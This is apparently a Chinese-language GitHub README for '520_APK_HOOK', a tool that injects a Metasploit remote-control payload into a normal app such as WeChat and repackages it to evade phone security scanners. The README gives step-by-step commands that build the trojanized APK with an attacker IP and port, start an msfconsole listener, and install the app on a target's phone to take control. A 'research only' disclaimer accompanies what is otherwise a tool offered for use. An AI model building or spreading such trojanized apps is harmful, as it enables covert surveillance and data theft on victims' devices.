 # 520_APK_HOOK


* 目前正在准备新版本,基于安卓虚拟机方案(双开)，基本可以秒所有的app.大家可以先暂停之前版本的提问. 2023-06-01

## 介绍


* 将msf生成的payload，注入到一个正常的apk文件中，重新打包后进行加固，bypass手机安全管家的检测。

* 项目地址: [https://github.com/cleverbao/520apkhook](https://github.com/cleverbao/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于原始的msf远控，此版本app在进行远控时，被注入的app可以正常运行，原始msf生成的app程序，只在桌面上有一个图标，点击后没有任何app界面。

* 注入后的app在安装时，手机管家不会有任何安全提示，原始msf生成的app程序，安装时手机管家会有安全警示。

* 被注入后的app可以正常运行，msf正常在线，继承app的权限。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 部分被加固过的app无法进行注入，已测试网易系列💔，360系列💔，腾讯系列❤️，其他的请自行测试。

## 项目依赖

* 本项目参考以下项目

* [apk-steady](https://gitee.com/openjk/apk-steady)

* [apk-jiagu](https://gitee.com/openjk/apk-jiagu)

* [APK Infector](https://github.com/PushpenderIndia/apkinfector)

## 使用


1. 使安装python3, Java环境.

2. 使用python3生成apk文件, 需要指定msf远控链接的IP和端口.

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ python main.py --lhost 192.168.0.106 --lport 1433  -n ../微信_7.0.22.apk

```

[![asciicast](https://asciinema.org/a/449061.svg)](https://asciinema.org/a/449061)

3. 使用msfconsole加载handler.rc进行服务端监听

```sh

╭─ ~/520apkhook                                                                                    х INT Py py3 16:36:11
╰─❯ msfconsole -r WorkDir/handler.rc

```

[![asciicast](https://asciinema.org/a/449064.svg)](https://asciinema.org/a/449064)

4. 将生成的apk文件在安卓手机进行安装, 即可完成对目标的控制

![安装App](./images/InstallApp.webp)

5. 成功后, 可以在msf中进行远程控制

